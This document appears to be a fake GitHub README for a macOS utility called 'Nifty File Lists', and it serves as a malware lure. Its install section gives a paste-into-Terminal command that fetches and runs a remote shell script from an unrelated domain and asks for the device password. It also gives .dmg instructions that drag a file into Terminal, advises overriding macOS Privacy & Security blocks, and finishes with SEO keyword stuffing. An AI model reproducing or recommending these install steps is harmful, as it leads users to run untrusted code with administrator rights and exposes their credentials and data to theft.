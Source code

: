 <p align="center">
  <img src="https://is1-ssl.mzstatic.com/image/thumb/Purple211/v4/f1/62/82/f162822d-ee48-afe2-3577-9e42677bcd52/AppIcon-0-0-85-220-0-5-0-2x.png/1200x600bf.png" width="350" alt="Nifty File Lists macOS Banner" />
</p>

<h1 align="center">Nifty File Lists for macOS</h1>

<p align="center">
  📂 Generate customizable file and folder listings instantly. Export clean, styled lists in TXT, CSV, HTML, or Markdown.  
  <br><br>
  ✅ Apple Silicon Support  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/251" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20NIFTY%20FILE%20LISTS%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Nifty File Lists for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/qMS8g6FX/1633864159-1.jpg" alt="Nifty File Lists Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Nifty File Lists for macOS?

**Nifty File Lists** is a powerful yet simple macOS tool that helps you generate detailed file and folder listings from any directory. Whether you’re building documentation, archiving projects, or just need a structured list of files, this utility does it instantly.

Export options include plain text, CSV, Markdown, and HTML — fully customizable with column selection, sorting, and formatting presets.

---

## ✅ Why Choose Nifty File Lists?

- 📋 **Generate Lists of Files & Folders Instantly**  
- 🧾 **Export to TXT, CSV, HTML, or Markdown**  
- 🔍 **Includes Size, Date, Type, and More**  
- 🛠️ **Column Picker and Sort Options**  
- 🧠 **Perfect for Catalogs, Indexing, Documentation**  
- 🍎 **Optimized for Apple Silicon (M1/M2/M3)**  
- 🖥️ **Clean macOS-native Interface**  
- 💼 **No Background Processes or Syncing**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/tPY3hF02/1633864157-2.jpg" alt="CSV Export Preview" />
  <br><br>
  <img src="https://i.ibb.co/h5X0jK9/1633864155-3.jpg" alt="Column Selection Panel" />
</p>

---

## 🚀 Key Features

- File/folder list generation  
- Multiple export formats  
- Selectable columns (name, size, type, date)  
- Drag-and-drop directory support  
- Custom styles for Markdown/HTML  
- Works offline  
- Built specifically for macOS  
- Batch support for large directories

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Nifty File Lists manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Export-CSV+TXT+HTML+MD-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Native-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Nifty File Lists – Structured Output, Fast

Thanks for using **Nifty File Lists for macOS**.  
Create clean file listings with precision and speed.

---

## 🧭 Usage Context

Nifty File Lists runs locally and works offline.  
Ideal for archivists, technical writers, project managers, or anyone needing structured file inventories.  
Output remains private and exportable in multiple formats.

---

## 🔍 Tags

```text
nifty file lists mac download, export folder list csv mac, file lister app for macos, generate file directory markdown html, mac app to list files and subfolders, batch file list export tool for mac, apple silicon compatible file lister, list files with size date type macos, download nifty file lists for ventura sonoma, file structure export macbook m1 m2, folder report generator mac utility, create html file index mac os, folder content documentation mac, best file list maker for mac developers, csv folder tree exporter for mac
